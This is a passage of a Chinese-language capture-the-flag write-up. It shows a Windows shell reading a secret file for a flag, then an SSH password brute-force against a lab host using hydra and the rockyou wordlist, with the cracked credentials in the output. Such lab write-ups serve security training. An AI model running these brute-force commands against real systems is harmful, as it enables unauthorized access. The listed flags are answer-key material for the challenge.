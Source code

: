 ```
C:\Documents and Settings\Files\Admin>dir secret.txt
dir secret.txt
 Volume in drive C has no label.
 Volume Serial Number is 3C20-DAF1

 Directory of C:\Documents and Settings\Files\Admin

04/25/2020  08:03 PM                40 secret.txt
               1 File(s)             40 bytes
               0 Dir(s)  81,487,785,984 bytes free

C:\Documents and Settings\Files\Admin>type secret.txt
type secret.txt

FLAG{a16bf4ca10e9a63da75d6260d0619f99}
C:\Documents and Settings\Files\Admin>
```
**flag{a16bf4ca10e9a63da75d6260d0619f99}**

### 綜合題型-04 ==10pts==
#### 題目
- 說明：
    - 請挑選此IP範圍(10.100.229.10 - 10.100.229.19)內的任何一台弱點主機，並找出存在於郵件系統內的Flag
- 答案格式：
    - flag{主機系統內的flag}

#### 解法
??? 迷失在茫茫資料夾中



## 滲透測試
### [6pts] 滲透測試-01
#### 題目
- 說明：
    - 請挑選此IP範圍(10.100.229.34 - 10.100.229.43)內的任何一台弱點主機，入侵後取得家目錄下的flag檔案。
- 答案格式：
    - flag{找到的flag}

#### 解法
1. 先用 hydya 爆破
    ```
    hydra -l admin -P ~/tool/fuzzdb/wordlists-user-passwd/rockyou.txt -t 50 ssh://10.100.229.34                                       (-127) ↵  16:15:30
    Hydra v8.8 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-05-30 16:18:02
    [WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
    [DATA] max 50 tasks per 1 server, overall 50 tasks, 14344398 login tries (l:1/p:14344398), ~286888 tries per task
    [DATA] attacking ssh://10.100.229.34:22/
    [22][ssh] host: 10.100.229.34   login: admin   password: 123456
    1 of 1 target successfully completed, 1 valid password found
    [WARNING] Writing restore file because 26 final worker threads did not complete until end.
    [ERROR] 26 targets did not resolve or could not be connected
    [ERROR] 50 targets did not complete
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-05-30 16:18:08
    ```
2. 用 admin/123456 可以成功登入
    ```